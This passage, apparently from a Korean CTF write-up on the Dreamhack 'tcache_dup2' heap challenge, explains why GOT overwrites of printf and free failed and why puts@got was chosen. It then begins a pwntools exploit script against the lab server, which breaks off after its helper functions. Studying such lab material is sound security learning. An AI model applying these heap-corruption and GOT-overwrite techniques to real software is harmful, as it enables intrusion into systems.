 결국 `printf@got`의 값에는 변함이 없이 `GOT overwrite`가 실패하게 되고, `read@got` 값만 이상한 `0x00`으로 변하게 되어 익스플로잇이 실패한다.

참고로, `tcache_dup`에서는 `printf@got` overwrite이 가능했던 이유가 `printf@got + 0x8`에 익스플로잇 과정에서는 호출되지 않는 `alarm@got`가 존재하기 때문이다.

![image](https://github.com/user-attachments/assets/928d3108-4d6d-4498-ac60-c94eec019a1f)


## 실패 이유 3. : ``ex_wrong3.py`

그럼 `printf@got` 대신 어떤 `got`를 overwrite 하는게 좋을지 바이너리에서 찾아보던 중 `free@got`를 발견했다.

`delete`에서 `free`를 호출하기 때문에, `free@got`를 `overwrite`한 후 `delete(0)`을 호출하면 되겠다는 생각으로 익스플로잇을 작성했지만, 여전히 익스플로잇이 실패했다.

그 이유는 **실패 이유 2.** 에서와 같은데, `free@got + 0x8`에는 `puts@got`가 존재한다.

**처음에 바이너리 소스 코드를 보고 `puts@got`가 존재하지 않아서 상관없겠구나라고 생각했는데, 컴파일 과정에서 `printf("abc")`와 같이 포맷 스트링 없이 문자열만 사용된 경우 `puts` 함수로 변형하여 최적화되기도 한다는 사실을 모르고 있었던 것이다.**

<img width="639" alt="image" src="https://github.com/user-attachments/assets/eaf02dbd-1327-4229-99a7-5259d9686bd5">

```
printf("1. Create heap\n");
printf("2. Modify heap\n");
printf("3. Delete heap\n");
```

로컬에서 확인해봤을 때는 `puts`로 변환되었고, 원격에서는 아래의 에러가 뜨는 것을 보아, `printf("> ");`도 변환된 것으로 보인다.

<img width="971" alt="image" src="https://github.com/user-attachments/assets/cb3ad2f4-62cd-427b-b010-3d5e9d443d84">

따라서, `free@got`를 overwrite 하는 방법도 불가능하기 때문에, 그럼 오히려 `puts@got`를 `overwrite` 하면 되겠다는 생각으로 `ex.py` 익스플로잇 코드를 작성하였다.
 
`puts@got`는 위의 이미지에서 보듯이 뒤에 카나리가 변조되었을 때 호출되는 `__stack_chk_fail@got`이 존재하기 때문이다.

# Exploit : `ex.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# malloc -> free를 2번 연속으로 해줘서 tc_idx = 2으로 만든 후, tcache_poisoning에서 tc_idx = 0이 되지 않도록 세팅
# tcache[0x20] : empty
```